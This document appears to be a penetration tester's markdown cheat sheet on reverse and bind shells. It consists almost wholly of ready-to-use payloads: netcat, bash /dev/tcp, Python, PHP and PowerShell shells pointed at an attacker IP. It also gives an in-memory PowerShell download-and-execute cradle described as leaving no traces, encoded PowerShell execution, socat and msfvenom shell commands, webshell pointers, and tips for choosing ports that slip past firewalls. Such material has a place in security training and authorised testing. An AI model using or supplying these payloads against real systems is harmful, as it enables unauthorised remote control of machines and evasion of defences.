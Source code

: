 # All about reverse shells

* Try always using ports: 80 or 443 if open

# Serving

To upload malicious reverse shell code it is necessary to host this code

Try using ports 80 and 443 for this reason.

```
python -m SimpleHTTPServer 443
python3 -m http.server 443

php -S 0.0.0.0:443

ruby -run -e httpd . -p 443

busybox httpd -f -p 443
```

Refer for more to: https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/

# Bind Shells

## Powershell bind

```
#Uncomment and change the hardcoded port number (443) in the below line. Remove this help comment as well.

#$listener = [System.Net.Sockets.TcpListener]443;$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
```

# Reverse shells

All of those methods assume that necessary programs like nc, python, php and etc are installed on target hosts.

* Firewall allow mostly outbound connections, that's why rever shell is so popular.
* You always need a listener to connect a rev shell to
`nc -lvnp <PORT>`
* by <PORT> selection try using ports 80, 443 because they are mostly not blocked by firewalls

## Netcat

* Necat: 
```
# Linux
nc <IP> <PORT> -e /bin/bash

# Windows
nc.exe <IP> <PORT> -e cmd.exe

```

## Bash

`bash -i >& /dev/tcp/ATTACKER-IP/ATTACKER-PORT 0>&1`

## Powershell

This script is tested on most windows machines and should work fine.

```
#replace <IP_ATTACKER> with target ip, so it is going to look something like this: TCPClient('10.231.12.44',443)

$client = New-Object System.Net.Sockets.TCPClient('<IP_ATTACKER>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

launch on target
```

Launch the above script directly or save on local attacking maching and call it from powershell like that to execute in memory and leave no traces

`powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.219.xxx/raw.ps1')"`

`powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File shell.ps1`

### Encoded POwershell Execution

```
$expression     = Get-Content -Path .\test.ps1
$commandBytes   = [System.Text.Encoding]::Unicode.GetBytes($expression)
$encodedCommand = [Convert]::ToBase64String($commandBytes)

Invoke-Expression ([System.Text.Encoding]::Unicode.GetString([convert]::FromBase64String($encodedCommand)))
```

## Python

* Python3: 

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

and without subprocess

`python -c 'import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacking-ip",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.system("/bin/sh -i")'`

## PHP

```
php -r '$sock=fsockopen("ATTACKER-IP",ATTACKER-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

### PHP webshells

Nice collection here: https://github.com/JohnTroony/php-webshells

I TAKE ABSOLUTELY NO RESPONSIBILITY FOR ANY OF THOSE SHELLS. CHECK their CODE BEFORE USING!
THE ONLY SAFE SHELL is within kali linux webshells.

```
$ webshells
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```

## Socat

* Socat is not well know but is super useful if able to launch
* Once launche socat can provide a fully interactive shell just like SSH

Here is bind shell example:

```
#On Victim with IP address 10.99.66.88 initiate a listener:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP4-LISTEN:3333,reuseaddr,fork,ignoreeof

#from attacker
socat file:`tty`,raw,echo=0 tcp:10.99.66.88:3333
```

## Webshell

In Kali it is integrated:

`$ webshells`

After that you shall be placed into the directory with webshells

```
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```

Here you have a rich selection of all possible shells.

## Reverse Shell bytecode generation with MSFVENOM

Use for any available payload.

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.xxx.xxx LPORT=443 -f python`

`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888`

# Shell Upgrade

* The bind/reverse shell is not always fully interactive but can be made using like that using Python trick:

1. Insert one those lines into victim CLI

<code> python -c 'import pty; pty.spawn("/bin/bash")' </code><br>
<code> python3 -c 'import pty;pty.spawn("/bin/bash")' </code>

## Getting fully working PTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```